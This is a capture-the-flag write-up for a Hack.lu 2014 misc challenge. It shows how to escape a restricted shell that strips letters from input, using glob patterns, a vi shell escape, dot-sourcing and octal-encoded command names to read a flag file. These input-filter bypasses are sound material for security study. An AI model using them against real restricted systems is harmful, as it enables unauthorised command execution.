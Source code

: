 # Hack.lu CTF 2014: Gunslinger Joe’s private Terminal

**Category:** Misc
**Points:** 50
**Author:** cutz
**Description:**

> Gunslinger Joe has a pretty bad memory and always forgets the password for his private terminals! That’s why he always uses his username as password but also makes sure that absolutely no one else who knows his name can interact with his secure terminal. Wouldn’t it be super embarrassing for him to prove him wrong?
>
> SSH: gunslinger_joe@wildwildweb.fluxfingers.net
> PORT: 1403

## Write-up

Let’s connect to the SSH server using `gunslinger_joe` as both the username and password, as stated in the challenge description:

```bash
$ ssh -p 1403 gunslinger_joe@wildwildweb.fluxfingers.net
gunslinger_joe@wildwildweb.fluxfingers.net's password:

           ,'-',
          :-----:
      (''' , - , ''')
      \   ' .  , `  /
       \  '   ^  ? /
        \ `   -  ,'
         `j_ _,'       Gunslinger Joe's
    ,- -`\ \  /f        Private Terminal
  ,-      \_\/_/'-
 ,                 `,
 ,          Joe      ,
      /\          \
|    /             \   ',
,   f  :           :`,  ,
<...\  ,           : ,- '
\,,,,\ ;           : j  '
 \    \            :/^^^^'
  \    \            ; ''':
    \   -,         -`.../
     '    - -,`,--`
      \_._'-- '---:

$ id
$ ls
$ ls -lsa
: -: command not found
```

So we indeed have access to a shell, but something strange is going on… It seems like some characters are being filtered.

Entering `-` reveals that our input is passed as an argument to `bash`:

```bash
$ -
: -
: invalid option
Usage:  bash [GNU long option] [option] ...
  bash [GNU long option] [option] script-file ...
GNU long options:
  --debug
  --debugger
  --dump-po-strings
  --dump-strings
  --help
  --init-file
  --login
  --noediting
  --noprofile
  --norc
  --posix
  --rcfile
  --restricted
  --verbose
  --version
Shell options:
  -ilrsD or -c command or -O shopt_option   (invocation only)
  -abefhkmnptuvxBCHP or -o option
```

Realizing that causing a syntax error results in a helpful error message, I entered all printable ASCII characters to see which ones would be removed:

```
$ () { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~'
: -c: line 0: syntax error near unexpected token `)'
: -c: line 0: `() { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~''
```

So yeah, all alphabetic characters are removed from the input. Entering `*` reveals that there’s a file named `FLAG` in the current working directory:

```bash
$ *
: ./FLAG: Permission denied
```

Let’s check the root directory:

```bash
$ /*
: /bin: Is a directory
```

Hmm, what would the first item in `/bin/*` be?

```bash
$ /*/*
```

Yay! `/*/*` expands to `/bin/bashbug`, which causes `$EDITOR` — in this case, `vi` — to open. From within `vi` we can easily run arbitrary commands:

```
:!id
uid=1000(gunslinger_joe) gid=1000(gunslinger_joe) groups=1000(gunslinger_joe)

:!cat FLAG
flag{joe_thought_youd_suck_at_bash}
```

The flag is `flag{joe_thought_youd_suck_at_bash}`.

### Alternate solution #1

A shorter solution than the one depicted above, is the following.
Entering the character `.` displayed the error

```bash
$ .
: line 0: .: filename argument required
.: usage: . filename [arguments]
```

That looks like `.` is interpreted as a command. Earlier having figured out that `*` was a working way to iterate all files in the current directory, the following command yielded the right result:

```bash
$ . *
./FLAG: line 1: flag{joe_thought_youd_suck_at_bash}: command not found
```

It’s still an error, but at least it delivers.

### Alternate solution #2

Encode the file name `FLAG` in octal and pass it as an argument to `.`:

```bash
$ . $'\106\114\101\107'
./FLAG: line 1: flag{joe_thought_youd_suck_at_bash}: command not found
```

### Alternate solution #3

[Encode `cat` in octal](https://www.gnu.org/software/bash/manual/bashref.html#ANSI_002dC-Quoting) and pass the [`????`](https://www.gnu.org/software/bash/manual/bashref.html#Pattern-Matching) wildcard pattern as the argument:

```bash
$ $'\143\141\164' ????
flag{joe_thought_youd_suck_at_bash}
```

This works because `FLAG` is the first (and only) file with a name that is four characters long, within the current working directory.

## Other write-ups and resources

* none yet
